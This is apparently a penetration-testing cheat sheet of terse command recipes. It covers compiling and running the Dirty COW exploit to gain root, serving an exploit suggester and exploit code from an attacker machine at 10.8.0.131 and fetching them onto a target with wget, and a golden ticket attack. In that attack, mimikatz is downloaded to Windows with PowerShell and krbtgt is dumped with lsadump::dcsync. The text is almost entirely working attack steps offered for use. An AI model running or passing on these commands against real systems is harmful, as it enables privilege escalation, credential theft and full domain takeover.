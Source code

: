 vim dirtycow.txt
paste in code
mv dirtycow.txt dirtycow.c
gcc -pthread dirtycow.c  -o dirty -lcrypt
./dirty

script may take a few minutes to complete
su firefart

```
### Linux exploit suggester
```
cp /usr/share/linux-exploit-suggester/linux-exploit-suggester.sh
python -m SimpleHTTPServer 80
In machine
wget http://10.8.0.131/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh

On Kali download an epxloit suggestion and have it in same directory as hosting webserver
wget http://10.8.0.131/39166.c
Run exploit using instructions
```

### Golden ticket method
```
Once access has been gained from windows machine
whoami /user
CopySID - S-1-5-(not this part, it is the RID)
- Find the domain name:
systeminfo | findstr /B "Domain"   (e.g. Morrowind-West.province.com)

Find the KRBTGT which is the key distribution account (using mimikatz) so we must get
mimikatz onto the target machine

On KALI:
cp -r /usr/share/windows-resources/mimikatz
Note: If this does not work, download the latest mimikatz from here
https://github.com/ParrotSec/mimikatz/blob/master/x64/mimikatz.exe
python -m SimpleHTTPServer 80

On Windows:
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.8.0.131/mimikatz.exe','c:\Temp\mimikatz2.exe')"

Run mimikatz:
mimikatz.exe

lsadump::dcsync /domain:Morrowind-West.province.com /user:krbtgt

Copy password hash: which is Hash NTLM
Golden ticket recipe is;
DOMAIN - Morrowind-West.province.com
DOMAIN SID - S-1-5
KRBTGT - 0f193cde5e5e9765366534e4da178564 (pass hash)
